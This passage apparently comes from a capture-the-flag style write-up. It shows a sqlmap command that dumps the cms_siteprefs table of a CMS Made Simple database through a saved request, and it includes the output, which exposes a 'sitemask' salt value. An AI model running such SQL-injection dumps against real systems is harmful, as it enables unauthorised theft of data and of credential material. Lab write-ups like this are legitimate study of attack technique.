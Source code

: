 When I dump that table with `sqlmap -r logs.php.request --dump -D cmsmsdb -T cms_siteprefs`, there are 37 rows, but the first one is what I need:

```

Database: cmsmsdb
Table: cms_siteprefs
[37 entries]
+---------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| sitepref_name                               | sitepref_value                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
+---------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| sitemask                                    | 6c2d17f37e226486                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
...[snip]...
+---------------------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

```
